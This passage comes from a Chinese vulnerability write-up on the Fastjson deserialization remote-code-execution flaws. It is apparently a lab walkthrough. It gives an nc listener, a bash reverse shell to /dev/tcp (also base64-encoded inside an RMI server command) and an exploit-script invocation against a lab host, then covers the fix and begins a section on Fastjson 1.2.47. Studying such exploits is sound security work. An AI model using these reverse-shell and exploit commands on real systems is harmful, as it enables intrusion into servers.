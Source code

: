 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-a435e7807fac66e2b34c3a87e1f85af4a2c77ae2.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-9adcf10b3b23438bd33899ad7e113aef02de5fab.png)

kali进行监听端口

```php
nc -lnvp 8888
```

物理机运行RMI服务，加载恶意java类

```php
bash -i >& /dev/tcp/192.168.177.128/8888 0>&1 //转换成可执行代码
java -cp fastjson_tool.jar fastjson.HRMIServer 192.168.177.1 9999 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4xNjAvODg4OCAwPiYx}|{base64,-d}|{bash,-i}"
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-9cc3935133e1eda164cf40cc0905f1e9ce7e5162.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-d6914ba4af272087998df00e0223f8a16f0a3f51.png)  
发送反序列化代码漏洞执行命令

```php
python.exe .\fastjson-1.2.24_rce.py http://192.168.200.166:8090 rmi://192.168.200.159:9999/Object
```

成功反弹shell

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-e0d99a9a905709d5d1b173e756f6e955f5fb7625.png)

0x05 修复方式
---------

升级最新版本，具体参见[漏洞修复](https://github.com/alibaba/fastjson/wiki/update_faq_20190722)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-ea463e523ac1c4940591d55021d15517634bade0.png)  
原因：NAT 不能被第三方机器干扰  
桥接模式可以被干扰

CNVD‐2019‐22238 Fastjson 1.2.47 远程命令执行漏洞
========================================

0x00 简介
-------

Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。。

0x01 漏洞概述
---------

fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令

0x02 影响版本
---------

FastJson &lt; 1.2.48
